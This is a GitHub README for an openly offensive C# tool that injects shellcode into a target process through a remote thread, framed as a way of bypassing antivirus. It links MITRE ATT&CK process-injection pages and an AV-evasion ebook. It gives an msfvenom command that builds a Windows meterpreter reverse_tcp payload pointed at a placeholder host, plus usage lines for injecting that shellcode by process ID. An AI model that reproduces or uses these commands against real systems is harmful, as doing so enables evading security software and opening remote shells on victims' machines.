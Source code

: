 # NativePayload_Tinjection
Creating Remote Thread into Target Process , (Remote Thread Injection by C#)

-----------------------
Related Links for "Mitre ATT&CK" : 

Process Injection: Portable Executable Injection ==>  https://attack.mitre.org/techniques/T1055/002/

Process Injection: Dynamic-link Library Injection ==> https://attack.mitre.org/techniques/T1055/001/

--------------------------
Your Payload Should be Msfvenom Payload ... 

msfvenom –platform windows –arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=w.x.y.z -f c > payload.txt
-------------------------

    Code1: NativePayload_Tinjection.exe [TPID] [PAYLOAD]

    Code2: NativePayload_Tinjectionx.exe [TPID] [PAYLOAD]


    EXAMPLE: NativePayload_Tinjection.exe 2452 "FC,48,83,00,..."

    EXAMPLE: NativePayload_Tinjectionx.exe 2452 "FC,48,83,00,..."
    
------------------------------------------------

Article [1]: https://www.linkedin.com/pulse/bypassing-anti-virus-creating-remote-thread-target-mohammadbagher

step by step => Chapter 14 : C# Delegate & Remote Thread Injection Technique (Part1)

https://github.com/DamonMohammadbagher/eBook-BypassingAVsByCSharp/blob/master/CH14/Bypassing%20Anti%20Viruses%20by%20C%23.NET%20Programming%20Chapter%2014%20-Part1.pdf

------------------------------------------------

online eBook, (chapters): https://damonmohammadbagher.github.io/Posts/ebookBypassingAVsByCsharpProgramming/

------------------------------------------------


![](https://github.com/DamonMohammadbagher/NativePayload_Tinjection/blob/main/Picture/2.jpeg)
